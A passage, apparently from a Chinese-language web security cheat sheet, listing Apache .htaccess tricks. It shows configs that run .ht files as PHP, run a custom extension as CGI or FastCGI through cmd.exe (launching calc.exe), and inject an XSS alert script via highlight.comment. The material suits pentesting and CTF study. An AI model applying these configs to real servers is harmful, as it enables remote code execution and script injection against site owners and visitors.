     ```
    Files ~ &#34;^.ht&#34;&gt;
     Require all granted
     Order allow,deny
     Allow from all
    &lt;/Files&gt;
    SetHandler application/x-httpd-php
    # &lt;?php phpinfo(); ?&gt;
    ```
    
  * 命令执行
  
    &gt; CGI启动
  
    ```
    cgi_module 需要加载，即 apache 配置文件中有
    
    LoadModule cgi_module modules/mod_cgi.so
    .htaccess内容
    
    Options ExecCGI #允许CGI执行
    AddHandler cgi-script .xx #将xx后缀名的文件，当做CGI程序进行解析
    ce.xx
    
    #!C:/Windows/System32/cmd.exe /k start calc.exe
    6
    ```
  
    直接访问ce.xx
  
    &gt; FastCGI启动
  
    ```
    mod_fcgid.so需要被加载。即 apache 配置文件中有
    
    LoadModule fcgid_module modules/mod_fcgid.so
    .htaccess
    
    Options &#43;ExecCGI
    AddHandler fcgid-script .xx
    FcgidWrapper &#34;C:/Windows/System32/cmd.exe /k start calc.exe&#34; .xx
    
    ce.xx 内容随意
    ```
  
    直接访问ce.xx
  
  * XSS
  
    &gt; highlight_file
  
    .htaccess内容
  
    ```
    php_value highlight.comment &#39;&#34;&gt;&lt;script&gt;alert(1);&lt;/script&gt;&#39;
    
    index.php
    &lt;?php
    highlight_file(__FILE__);
    // comment
    ```
  